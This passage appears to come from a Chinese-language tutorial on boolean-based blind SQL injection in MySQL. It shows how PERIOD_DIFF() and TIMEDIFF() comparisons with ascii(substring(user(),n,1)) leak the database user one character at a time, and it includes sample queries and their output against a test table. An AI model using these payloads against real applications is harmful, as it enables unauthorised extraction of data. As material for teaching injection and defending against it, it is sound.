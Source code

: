 ```plain
1 row in set

# 匹配成功的时候,因为函数返回了0 0表示False,所以就不查询数据出来了
mysql> SELECT * from test_table where id=1 and PERIOD_DIFF(ascii(substring(user(),1,1)), 114);
Empty set
```

## 0x04 TIMEDIFF() 函数

```plain
TIMEDIFF(time1, time2)    计算时间差值
```

### 0x04.1 例子

```plain
# user() 第一位数据转ascii

mysql> select ascii(substring(user(),1,1));
+------------------------+
| ascii(substring(user(),1,1)) |
+------------------------+
|                    114 |
+------------------------+
1 row in set
# user() 第二位数据转ascii

mysql> select ascii(substring(user(),2,1));
+------------------------+
| ascii(substring(user(),2,1)) |
+------------------------+
|                    111 |
+------------------------+
1 row in set
# 表示注入失败的时候

# 表示两个值相差1位
# ascii(substring(user(),1,1)) = 114
# 不为0就是表示True,那么页面就不会产生变化
mysql> SELECT TIMEDIFF(ascii(substring(user(),1,1)), 113);
+-------------------------------------+
| TIMEDIFF(ascii(substring(user(),1,1)), 113) |
+-------------------------------------+
| 00:00:01                             |
+-------------------------------------+
1 row in set



# 匹配失败的时候页面的数据会返回正常,不产生变化
mysql> SELECT * from test_table where id=1 and TIMEDIFF(ascii(substring(user(),1,1)), 113);
+----+-------+
| id | name |
+----+-------+
|  1 | bbb   |
+----+-------+
1 row in set
# 表示注入成功的时候

# 表示两个值相等
# ascii(substring(user(),1,1)) = 114
# 为0就是表示False
mysql> SELECT TIMEDIFF(ascii(substring(user(),1,1)), 114);
+-------------------------------------+
```